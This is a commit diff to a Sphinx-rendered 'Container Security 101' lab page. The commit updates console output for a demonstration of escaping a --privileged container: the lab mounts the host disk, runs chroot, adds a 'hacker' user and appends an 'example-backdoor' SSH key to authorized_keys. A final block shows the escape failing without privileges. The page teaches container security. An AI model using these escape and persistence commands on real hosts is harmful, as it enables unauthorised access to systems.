

Before and after one commit to JonZeolla/JonZeolla.github.io, a Sphinx documentation site: the page built from docs/labs/container-security-101.md, in a window 1280 px wide and 1400 px high, scrolled down 15764 px. Shown: the whole window at 82% size. Built offline with Sphinx 7.4.7 and the Read the Docs theme 2.0.0, drawn with Linux system fonts in a browser that asks for light colours; some of the changed text lies outside the part shown.

Commit message:
Update Container Security 101 lab instructions

````diff
--- a/docs/labs/container-security-101.md
+++ b/docs/labs/container-security-101.md
@@ -889,7 +889,7 @@
 ```
 
 Then, by abusing the additional access from the `--privileged` argument, we can mount the host filesystem, which in my
-example is on `/dev/xvda1`:
+example is on `/dev/nvme0n1p1`:
 
 ```{code-block} console
 ---
@@ -898,16 +898,16 @@
 $ mount | grep '/dev/'
 devpts on /dev/pts type devpts (rw,nosuid,noexec,relatime,gid=5,mode=620,ptmxmode=666)
 mqueue on /dev/mqueue type mqueue (rw,nosuid,nodev,noexec,relatime)
-shm on /dev/shm type tmpfs (rw,nosuid,nodev,noexec,relatime,size=65536k,inode64)
-/dev/xvda1 on /etc/resolv.conf type ext4 (rw,relatime,discard)
-/dev/xvda1 on /etc/hostname type ext4 (rw,relatime,discard)
-/dev/xvda1 on /etc/hosts type ext4 (rw,relatime,discard)
+shm on /dev/shm type tmpfs (rw,nosuid,nodev,noexec,relatime,size=65536k)
+/dev/nvme0n1p1 on /etc/resolv.conf type xfs (rw,noatime,attr2,inode64,logbufs=8,logbsize=32k,noquota)
+/dev/nvme0n1p1 on /etc/hostname type xfs (rw,noatime,attr2,inode64,logbufs=8,logbsize=32k,noquota)
+/dev/nvme0n1p1 on /etc/hosts type xfs (rw,noatime,attr2,inode64,logbufs=8,logbsize=32k,noquota)
 devpts on /dev/console type devpts (rw,nosuid,noexec,relatime,gid=5,mode=620,ptmxmode=666)
 $ ls -al /home # Nothing in the home directory in the container
 total 8
 drwxr-xr-x 2 root root 4096 Apr 15  2020 .
 drwxr-xr-x 1 root root 4096 Apr 26 02:40 ..
-$ mount /dev/xvda1 /mnt
+$ mount /dev/nvme0n1p1 /mnt
 $ chroot /mnt
 ```
 
@@ -918,25 +918,22 @@
 ---
 emphasize-lines: 5,7,9
 ---
-$ ls -al /home # We can now see /home/ubuntu/ on the host filesystem
-total 12
-drwxr-xr-x  3 root   root   4096 Apr 26 00:43 .
-drwxr-xr-x 19 root   root   4096 Apr 26 00:43 ..
-drwxr-xr-x  5 ubuntu ubuntu 4096 Apr 26 00:54 ubuntu
+$ ls -al /home # We can now see /home/ on the host filesystem
+total 4
+drwxr-xr-x  3 root     root       22 Nov 15 17:28 .
+dr-xr-xr-x 18 root     root      257 Nov 15 17:28 ..
+drwx------ 14 ec2-user ec2-user 4096 Nov 26 14:54 ec2-user
 $ sudo useradd hacker
-sudo: unable to resolve host 86ffe706cfb4: Temporary failure in name resolution
 $ sudo passwd hacker
-sudo: unable to resolve host 86ffe706cfb4: Temporary failure in name resolution
 New password:
 Retype new password:
 passwd: password updated successfully
 ```
 
-Finally, let's drop our public key into the `ubuntu` user's `~/.ssh/authorized_keys` file so there's another way back
-in.
+Finally, let's drop our public key into the current user's `~/.ssh/authorized_keys` file so there's another way back in.
 
 ```{code-block} bash
-echo 'ssh-ed25519 AAAAC3NzAAAAAAAAATE5AAAAIH/JRUsEfBrjsVQmeyBrjsVQmeyBrjsVQmeyBrjsVQYIX example-backdoor' >> /home/ubuntu/.ssh/authorized_keys
+echo 'ssh-ed25519 AAAAC3NzAAAAAAAAATE5AAAAIH/JRUsEfBrjsVQmeyBrjsVQmeyBrjsVQmeyBrjsVQYIX example-backdoor' >> ${HOME}/.ssh/authorized_keys
 exit
 exit
 ```
@@ -945,10 +942,10 @@
 
 ```{code-block} console
 $ tail -3 /etc/passwd
-ubuntu:x:1000:1000:Ubuntu:/home/ubuntu:/bin/bash
-lxd:x:998:100::/var/snap/lxd/common/lxd:/bin/false
-hacker:x:1001:1001::/home/hacker:/bin/sh
-$ tail -1 /home/ubuntu/.ssh/authorized_keys
+apache:x:48:48:Apache:/usr/share/httpd:/sbin/nologin
+nginx:x:995:993:Nginx web server:/var/lib/nginx:/sbin/nologin
+hacker:x:1001:1001::/home/hacker:/bin/bash
+$ tail -1 "${HOME}/.ssh/authorized_keys"
 ssh-ed25519 AAAAC3NzAAAAAAAAATE5AAAAIH/JRUsEfBrjsVQmeyBrjsVQmeyBrjsVQmeyBrjsVQYIX example-backdoor
 ```
 
@@ -970,16 +967,16 @@
 $ mount | grep '/dev/'
 devpts on /dev/pts type devpts (rw,nosuid,noexec,relatime,gid=5,mode=620,ptmxmode=666)
 mqueue on /dev/mqueue type mqueue (rw,nosuid,nodev,noexec,relatime)
-shm on /dev/shm type tmpfs (rw,nosuid,nodev,noexec,relatime,size=65536k,inode64)
-/dev/xvda1 on /etc/resolv.conf type ext4 (rw,relatime,discard)
-/dev/xvda1 on /etc/hostname type ext4 (rw,relatime,discard)
-/dev/xvda1 on /etc/hosts type ext4 (rw,relatime,discard)
+shm on /dev/shm type tmpfs (rw,nosuid,nodev,noexec,relatime,size=65536k)
+/dev/nvme0n1p1 on /etc/resolv.conf type xfs (rw,noatime,attr2,inode64,logbufs=8,logbsize=32k,noquota)
+/dev/nvme0n1p1 on /etc/hostname type xfs (rw,noatime,attr2,inode64,logbufs=8,logbsize=32k,noquota)
+/dev/nvme0n1p1 on /etc/hosts type xfs (rw,noatime,attr2,inode64,logbufs=8,logbsize=32k,noquota)
 devpts on /dev/console type devpts (rw,nosuid,noexec,relatime,gid=5,mode=620,ptmxmode=666)
 $ ls -al /home
 total 8
 drwxr-xr-x 2 root root 4096 Apr 15  2020 .
 drwxr-xr-x 1 root root 4096 Apr 26 02:56 ..
-$ mount /dev/xvda1 /mnt
+$ mount /dev/nvme0n1p1 /mnt
 mount: only root can do that
 $ chroot /mnt
 chroot: cannot change root directory to '/mnt': Operation not permitted
````
Also changed, not shown: other parts of docs/labs/container-security-101.md (+2 -2 lines), docs/img/cloud9-login.png, 3 other files.
